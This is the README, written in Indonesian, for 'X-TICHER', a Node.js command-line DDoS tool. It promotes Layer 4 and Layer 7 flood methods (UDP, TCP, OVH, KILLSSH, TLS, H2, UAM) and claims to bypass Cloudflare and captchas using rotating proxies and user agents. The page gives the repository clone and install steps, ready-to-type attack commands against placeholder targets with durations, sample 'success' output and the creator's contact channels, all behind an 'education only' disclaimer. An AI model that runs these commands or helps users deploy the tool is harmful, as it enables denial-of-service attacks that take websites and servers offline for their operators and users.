 # 🛡️ X-TICHER DDoS TOOL [v1.0.0]

![Banner](https://i.postimg.cc/x8P6pnQj/file-000000003090622fa3716dd1f8a0db60-1.png)

**X-TICHER** adalah tools Layer 4 & Layer 7 DDoS (Denial-of-Service) berbasis CLI yang dikembangkan dengan tujuan edukasi & pengujian performa jaringan. Tools ini menawarkan berbagai metode serangan HTTP dan jaringan TCP/UDP lengkap dengan dukungan proxy, user-agent rotator, dan interface yang mudah digunakan.

> ⚠️ **DISCLAIMER**: Tools ini hanya boleh digunakan untuk tujuan **pengujian sistem milik sendiri** atau sistem yang Anda miliki izin eksplisit. Penyalahgunaan menjadi tanggung jawab pengguna sepenuhnya.

---

## ✨ FITUR UNGGULAN

- 🔹 Layer 7 (HTTP Flood): HTTPS, TLS, H2, UAM, NOSEC, dll.
- 🔸 Layer 4 (Network Flood): UDP, TCP, OVH, PING, KILLSSH, dll.
- 🔁 Bypass perlindungan Cloudflare & Captcha
- 🌐 Integrasi GeoIP untuk informasi target
- 🧠 Otomatisasi Proxy dan User-Agent Rotator
- 🖥️ CLI interaktif dan mudah digunakan
- 🚀 Bisa digunakan di Linux, Termux, Windows (via WSL/Node.js)

---

## 💻 INSTALLASI

### 1. Persiapan

Pastikan kamu sudah menginstal **Node.js** (v18 ke atas):

```bash
node -v
# Jika belum ada:
sudo apt install nodejs npm -y
```

### 2. Clone Repository

```bash
git clone https://github.com/Dikatoki969/XTicher-ddos.git
cd XTicher-ddos
npm install
```

### 3. Jalankan Tools

```bash
node ddos.js
```

---

## 🧠 PENGGUNAAN

Setelah `node ddos.js`, ketik command:

### 🎛️ Melihat Menu

```bash
menu
```

### 🌐 Layer 7 Attack (HTTP)

```bash
tls https://target.com 120
https https://target.com 90
h2 https://target.com 60
uam https://target.com 100
nosec https://target.com 80
```

### 📡 Layer 4 Attack (TCP/UDP)

```bash
udp 1.2.3.4 80 60
tcp 1.2.3.4 22 90
ovh 1.2.3.4 443 60
killssh 1.2.3.4 120
killdo 1.2.3.4 150
ping 1.2.3.4 60
tcpnew 1.2.3.4 80 60
down https://target.com 120
```

> Gunakan durasi dalam satuan detik.

---

## 🎥 DEMO VIDEO

[![Video demo](https://i.postimg.cc/WbHzyynT/Beige-Minimalist-Hand-Holding-Phone-Mockup-Instagram-Post.png)](https://youtube.com/shorts/8pL1rRDKtCE?si=oPsYumTvgv5AssNU)

---

## 📦 STRUKTUR FILE

```
x-ticher-ddos/
│
├── ddos.js               # Main CLI tools
├── README.md             # Dokumentasi (ini file-nya)
├── /ddos                 # Folder metode serangan
│     ├── tls.js
│     ├── h2.js
│     ├── ...
│
├── /proxy                # File pendukung
│     ├── ua.txt
│     ├── proxy.txt
│     ├── cockie.txt
```

---

## 📋 CONTOH HASIL OUTPUT

```bash
➔: tls https://example.com 120

░█░█░░░░░▀█▀░▀█▀░█▀▀░█░█░█▀▀░█▀▄
░▄▀▄░▄▄▄░░█░░░█░░█░░░█▀█░█▀▀░█▀▄
░▀░▀░░░░░░▀░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀░▀
[ SYSTEM ] Berhasil mengirim DDOS!
Target   : https://example.com
Duration : 120
Method.  : TLS
Status   : Sukses
Creator  : https://t.me/dikatoki111
```

---

## 🧹 FITUR AUTO CLEAN EXIT

Tools ini menangani keluar otomatis dengan baik, misalnya saat kamu menekan `CTRL+C`, semua proses akan dibersihkan:

```js
process.on('SIGINT', () => {
  clearall()
  process.exit();
});
```

---

## 🔗 KONTAK & KOMUNITAS

- 👤 Creator: [@dikatoki111](https://t.me/dikatoki111)
- 📤 Email: [ahmadandhika969@gmail.com](ahmadandhika969@gmail.com)
- 🤖 Telegram Bot: [@dikatoki_bot](https://t.me/dikatoki_bot)
- 📣 Channel WhatsApp: [Join di sini](https://whatsapp.com/channel/0029ValalxrICVfeUyTSrV1O)

---

## ⚠️ DISCLAIMER

Tool ini dibuat **hanya untuk tujuan edukasi & pengujian**. Segala penyalahgunaan terhadap tools ini seperti:
- Menyerang website tanpa izin
- Menyerang server publik
- Menjual tools ke pihak tak bertanggung jawab

adalah **tanggung jawab pribadi pengguna** dan **tidak berkaitan dengan developer**.

---

## 🪪 LISENSI

MIT License – Silakan fork, modifikasi, dan gunakan dengan tanggung jawab.
